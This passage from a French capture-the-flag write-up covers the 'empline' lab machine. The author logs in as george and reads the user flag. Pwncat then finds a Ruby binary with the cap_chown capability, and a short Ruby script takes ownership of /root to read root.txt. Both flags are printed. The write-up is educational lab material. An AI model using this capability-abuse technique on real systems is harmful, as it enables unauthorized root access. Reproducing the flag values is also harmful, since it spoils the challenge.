 On se connecte sur le compte SSH de george.   
On voit un fichier user.txt
On le lit et on a le flag qui est : 91cb89c70aa2e5ce0e0116dab099078e  

**Root.txt**  

```bash
(local) pwncat$ run enumerate
Module 'enumerate' Results
- /usr/local/bin/ruby -> [cap_chown+ep]
```

powcat nous montre que ruby a la capacitée de changer les droits.  

```bash
(remote) george@empline:/home/george$ echo 'File.chown(1002, nil, "/root/")' > exploit.rb
(remote) george@empline:/home/george$ echo 'File.chown(1002, nil, "/root/root.txt")' >> exploit.rb
(remote) george@empline:/home/george$ ruby exploit.rb
(remote) george@empline:/home/george$ cat /root/root.txt
74fea7cd0556e9c6f22e6f54bc68f5d5
```

Je dit a ruby de modifier les droits pour pouvoir lire root.txt.  
Un foit l'exploit exécuté,on lit le flag.   
Le flag est : 74fea7cd0556e9c6f22e6f54bc68f5d5   

